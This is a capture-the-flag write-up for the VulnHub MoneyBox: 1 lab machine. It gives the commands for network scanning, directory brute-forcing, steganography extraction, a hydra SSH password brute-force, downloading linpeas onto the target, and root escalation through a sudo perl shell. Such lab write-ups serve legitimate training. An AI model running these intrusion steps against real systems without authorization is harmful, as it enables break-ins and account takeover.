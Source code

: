 # Moneybox CTF Write-up

CTF link: 

[MoneyBox: 1](https://www.vulnhub.com/entry/moneybox-1,653/)

- We launched target machine and our kali and opened terminal as root.
- Check ifconfig and grab your ip address and start a scan.

> netdiscover -r xx.xx.xx.0/24
> 
- Pick the ip address and copy it.

We have to check ip for which ports runs which apps.

- First we check nmap

> nmap -sV -sC xx.x.x.x
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled.png)

We see that our ip runs 3 ports: ftp, ssh,http.

We should check if there is a website and what we can find there. As usual page-source should be checked.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%201.png)

Also checked page-source, there is nothing there. So we should look for hidden directories.

> gobuster dir -u [http://192.168.1.6/](http://192.168.1.6/) -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%202.png)

Check this directories, don’t forget to check page-sources.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%203.png)

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%204.png)

We check secret directory and its page-source given.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%205.png)

We found a secret key, probably a password. We had ftp and ssh port, we can try something. We should try to access ftp server as anonymous with no password first. Maybe we can find something.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%206.png)

We found a image file, and download it.

> get trytofind.jpg
> 

Maybe there is a hidden message in this image, because why not? We are trying everything.

> steghide extract -sf trytofind.jpg
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%207.png)

We entered found key “3xtr4ctd4t4” as passphrase and got a something. Check data.txt.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%208.png)

Password is weak and renu is the name. Let’s check ssh if we can find renu’s password with brute-force attack.

> hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.6
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%209.png)

We found renu’s password: “987654321”. Let’s enter ssh with these.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2010.png)

We found the first flag. Look around.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2011.png)

We found second flag. 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2012.png)

We can not cd root, we have to be root. Other user lily maybe can, but password? We can look at linpeas. Download it to /tmp/ directory.

> wget [https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2013.png)

When we check all data we see that htere is authorized keys. Renu can login ssh as lily.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2014.png)

> ssh lily@192.168.1.6
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2015.png)

We login as lily and lily can run /usr/bin/perl as root. So we can get the shell with this. 

> Source: [https://gtfobins.github.io/gtfobins/perl/](https://gtfobins.github.io/gtfobins/perl/)
> 

> `sudo perl -e 'exec "/bin/sh";'`
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2016.png)

Now we can cd root.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2017.png)

All done.